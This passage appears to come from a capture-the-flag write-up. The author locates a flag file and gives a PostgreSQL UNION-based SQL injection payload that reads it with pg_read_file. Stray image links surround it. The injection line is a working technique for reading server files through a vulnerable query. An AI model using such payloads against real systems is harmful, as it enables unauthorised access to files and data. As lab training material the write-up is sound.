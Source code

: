 ![image](/assets/sans-offensive-ops-25/20250319000401.png)

Found that the flag is under the `/flag_e5c2fc41110b168.txt`. Finally, we can use the `pg_read_file` function of the flag file location against the SQL payload.
```
paper' UNION select NULL,NULL,pg_read_file('/flag_e5c2fc41110b168.txt', 0, 200),NULL,NULL-- -
```